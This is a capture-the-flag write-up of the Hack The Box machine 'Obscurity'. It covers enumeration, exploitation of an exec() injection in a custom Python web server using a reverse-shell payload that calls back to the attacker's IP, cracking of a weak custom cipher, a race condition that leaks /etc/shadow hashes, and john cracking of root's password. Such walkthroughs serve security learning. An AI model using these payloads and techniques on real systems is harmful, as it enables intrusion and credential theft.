

## Summary

Obscurity just retired today. I had lots of fun solving it, especially because I got to pwn so many custom applications. Its IP address is '10.10.10.168' and I added it to '/etc/hosts' as 'obscurity.htb'. Without further ado, let's jump right in!

## Scanning & SuperSecureServer.py

A light nmap scan was enough to get me started:



root@fury-battlestation:~/htb/blog/obscurity# nmap -sV -O obscurity.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 14:01 EDT
Nmap scan report for obscurity.htb (10.10.10.168)
Host is up (0.11s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=3/17%Time=5E711085%P=x86_64-pc-linux-gnu%r(Ge
[...]
SF:section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"s
SF:k-spinner\x20sk-spinner-wordpress\">\n");
Aggressive OS guesses: Linux 3.2 - 4.9 (94%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.18 (92%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.16 (91%), Oracle VM Server 3.4.2 (Linux 4.1) (91%), Crestron XPanel control system (91%), Android 4.1.1 (91%), Adtran 424RG FTTH gateway (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.08 seconds
root@fury-battlestation:~/htb/blog/obscurity# 



Port 80 was closed, but port 8080 was opened and hosted something that identified itself as BadHTTPServer. I opened it in a browser and got the following page:

The motto ("Security Through Obscurity") only made me more curious. I began reading the content of the page and stumbled upon the following entry:


Message to server devs: the current source code for the web server is in 'SuperSecureServer.py' in the secret development directory


After seeing the words 'secret development directory', I let dirb run with a lot of wordlists, but I got no results. Then, I remembered that the site uses a custom server. I tried accessing the /css direcotry, which I knew existed because I inspected the source of the front page, and got a 404 error. This made me believe that the server will return a 404 error unless the requested URI is a FILE. Luckily for me, I knew the 'SuperSecureServer.py' would be located in that direcotry, so I used wfuzz to find it:


root@fury-battlestation:~/htb/blog/obscurity# wfuzz -w /usr/share/dirb/wordlists/common.txt --hc 404 http://obscurity.htb:8080/FUZZ/SuperSecureServer.py
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://obscurity.htb:8080/FUZZ/SuperSecureServer.py
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                              
===================================================================

000001245:   200        170 L    498 W    5892 Ch     "develop"                                                                                                                            

Total time: 105.2146
Processed Requests: 4614
Filtered Requests: 4613
Requests/sec.: 43.85320

root@fury-battlestation:~/htb/blog/obscurity#



The server source code was located at /develop/SuperSecureServer.py. You can find its source code below:



import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
import urllib.parse
import subprocess

respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}

{body}
"""
DOC_ROOT = "DocRoot"

CODES = {"200": "OK", 
        "304": "NOT MODIFIED",
        "400": "BAD REQUEST", "401": "UNAUTHORIZED", "403": "FORBIDDEN", "404": "NOT FOUND", 
        "500": "INTERNAL SERVER ERROR"}

MIMES = {"txt": "text/plain", "css":"text/css", "html":"text/html", "png": "image/png", "jpg":"image/jpg", 
        "ttf":"application/octet-stream","otf":"application/octet-stream", "woff":"font/woff", "woff2": "font/woff2", 
        "js":"application/javascript","gz":"application/zip", "py":"text/plain", "map": "application/octet-stream"}

class Response:
    def __init__(self, **kwargs):
        self.__dict__.update(kwargs)
        now = datetime.now()
        self.dateSent = self.modified = now.strftime("%a, %d %b %Y %H:%M:%S")
    def stringResponse(self):
        return respTemplate.format(**self.__dict__)

class Request:
    def __init__(self, request):
        self.good = True
        try:
            request = self.parseRequest(request)
            self.method = request["method"]
            self.doc = request["doc"]
            self.vers = request["vers"]
            self.header = request["header"]
            self.body = request["body"]
        except:
            self.good = False

    def parseRequest(self, request):        
        req = request.strip("\r").split("\n")
        method,doc,vers = req[0].split(" ")
        header = req[1:-3]
        body = req[-1]
        headerDict = {}
        for param in header:
            pos = param.find(": ")
            key, val = param[:pos], param[pos+2:]
            headerDict.update({key: val})
        return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}

class Server:
    def __init__(self, host, port):    
        self.host = host
        self.port = port
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.sock.bind((self.host, self.port))

    def listen(self):
        self.sock.listen(5)
        while True:
            client, address = self.sock.accept()
            client.settimeout(60)
            threading.Thread(target = self.listenToClient,args = (client,address)).start()

    def listenToClient(self, client, address):
        size = 1024
        while True:
            try:
                data = client.recv(size)
                if data:
                    # Set the response to echo back the recieved data 
                    req = Request(data.decode())
                    self.handleRequest(req, client, address)
                    client.shutdown()
                    client.close()
                else:
                    raise error('Client disconnected')
            except:
                client.close()
                return False
    
    def handleRequest(self, request, conn, address):
        if request.good:
#            try:
                # print(str(request.method) + " " + str(request.doc), end=' ')
                # print("from {0}".format(address[0]))
#            except Exception as e:
#                print(e)
            document = self.serveDoc(request.doc, DOC_ROOT)
            statusNum=document["status"]
        else:
            document = self.serveDoc("/errors/400.html", DOC_ROOT)
            statusNum="400"
        body = document["body"]
        
        statusCode=CODES[statusNum]
        dateSent = ""
        server = "BadHTTPServer"
        modified = ""
        length = len(body)
        contentType = document["mime"] # Try and identify MIME type from string
        connectionType = "Closed"

        resp = Response(
        statusNum=statusNum, statusCode=statusCode, 
        dateSent = dateSent, server = server, 
        modified = modified, length = length, 
        contentType = contentType, connectionType = connectionType, 
        body = body
        )

        data = resp.stringResponse()
        if not data:
            return -1
        conn.send(data.encode())
        return 0

    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}



## Exploiting SuperSecureServer.py

If you didn't already spot the vulnerability, it's probably because the source is a little long. Let me help you:



def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])



The server is running exec() on a string containing the 'path' variable, which we control. As the variable is not sanitized at all, I used [shellgenerator.github.io](https://shellgenerator.github.io) and crafted the following payload:


';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.173",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);b='


In order to get my reverse shell, I urlencoded that payload using an [online tool](https://www.urlencoder.org/) and then appended it to 'obscurity.htb:8080/' (I accessed the resulting URL in a browser). This got me a reverse shell:



root@fury-battlestation:~/htb/blog/obscurity# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.173] from (UNKNOWN) [10.10.10.168] 45170
$ whoami
www-data
$ pwd
/
$ 



One interesting thing that I discovered during enumeration was that there was a user named robert and I was allowed to read his home directory:



$ cd /home/robert
$ ls -l
total 24
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
-rw-rw-r-- 1 robert robert   94 Sep 26 23:08 check.txt
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rwxrwxr-x 1 robert robert 2514 Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25 14:12 user.txt
$ 



passwordreminder.txt looked promising, but when I transferred it to my home machine I discovered it only contained non-printable ASCII characters. This made me believe it was encrypted using SuperSecureCrypt.py, which I transferred along all the other files in that directory. The source of SuperSecureCrypt.py is a little bit long, so I'll only paste the 'encrypt' function below, which was presumably used to encrypt the password:



def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted



# Exploiting SuperSecureCrypt.py

You don't need to be a cryptography expert in order to see that the key could be calclated given we have a sample input and output. Luckily for us, the contents of check.txt give us that two files:



Encrypting this file with your key should result in out.txt, make sure your key is correct!



I made the following python script to calculate the key used to encrypt check.txt:



a = open("check.txt", "r", encoding='UTF-8').read()
b = open("out.txt", "r", encoding='UTF-8').read()

# print(len(a), len(b))

key = ""

for i, v in enumerate(a):
	key += chr((ord(b[i]) - ord(v)) % 255)

print(key)



The output is the key repeated some times:


root@fury-battlestation:~/htb/blog/obscurity# python3 timeai.py 
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal
root@fury-battlestation:~/htb/blog/obscurity#


The key used to encrypt the file was 'alexandrovich'. I used it to decrypt passwordreminder.txt:



root@fury-battlestation:~/htb/blog/obscurity# python3 SuperSecureCrypt.py -d -i passwordreminder.txt -o password_out.txt -k alexandrovich
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to password_out.txt...
root@fury-battlestation:~/htb/blog/obscurity# cat password_out.txt 
SecThruObsFTW
root@fury-battlestation:~/htb/blog/obscurity#



The password for robert was 'SecThruObsFTW'. I used ssh to connect to robert's account and get the user proof. It starts with 'e4' 😉

## Exloiting BetterSSH

After I submitted the user proof, I started enumersting the machine again. One directory in particular caught my attention: BetterSSH. However, I knew it wouldn't help me achieve root if it runs with the same permission as robert, so I started searching for ways I could make it run as root. Fortunately, the user robert can run BetterSSH with sudo without providing a password:


robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
robert@obscure:~$


The sourcecode of BetterSSH.py can be found below:


import sys
import random, string
import os
import time
import crypt
import traceback
import subprocess

path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break

    if salt == "":
        print("Invalid user")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    salt = '$6$'+salt+'$'
    realPass = salt + realPass

    hash = crypt.crypt(passW, salt)

    if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)

if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')


For some reason, the binary created a file in the /tmp/SSH/ directory and printed all the password hashes and salts to that file. However, the file would get deleted in a little over 0.1s, so I couldn't read it manually. However, I was able to read it with a little bash witchery and some creativity:
1. Have two SSH sessions as robert
2. In one session, have a bash one-liner that tries to read all the files in /tmp/SSH/ continously. It will only print the file's contents; all errors should be redirected to /dev/null
3. In the other session, try to log in as a valid user, say robert. Enter a wrong password only after you started the first session.

My bash one-liner looked like this:



while true; do cat /tmp/SSH/* 2>/dev/null; done



On the other terminal, I ran the following commands:



robert@obscure:~$ mkdir /tmp/SSH # for some reason the directory doesn't exist
robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: wrong_password
Incorrect pass
robert@obscure:~$ 



The following output was printed a lot of times in the first terminal:



root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7

robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7



Root's /etc/shadow entry can be obtained by joining the lines below root (until 'robert') with ':'. The /etc/passwd file is readable by everyone, so I used john to crack root's password:



root@fury-battlestation:~/htb/blog/obscurity# echo "root:\$6\$riekpK4m\$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:18226:0:99999:7:::" > ./shadow
root@fury-battlestation:~/htb/blog/obscurity# scp robert@obscurity.htb:/etc/passwd ./passwd
robert@obscurity.htb\'s password: 
passwd                                                          100% 1561    13.3KB/s   00:00    
root@fury-battlestation:~/htb/blog/obscurity# unshadow passwd shadow > crackme
root@fury-battlestation:~/htb/blog/obscurity# john --wordlist=/usr/share/wordlists/rockyou.txt ./crackme 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (root)
1g 0:00:00:00 DONE (2020-03-18 04:56) 3.703g/s 1896p/s 1896c/s 1896C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@fury-battlestation:~/htb/blog/obscurity#



The password for root was 'mercedes'. Root SSH login was disabled for obvious reasons (we don't want people to suceed in bruteforcing root's SSH password and get all the proofs without them solving the box), so I used 'su' while logged in as robert to get root:



robert@obscure:~$ su
Password: 
root@obscure:/home/robert# wc ~/root.txt
 1  1 33 /root/root.txt
root@obscure:/home/robert#



The root proof starts with ‘51’ 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito) 🙂

Until next time, hack the world.

yakuhito, over.
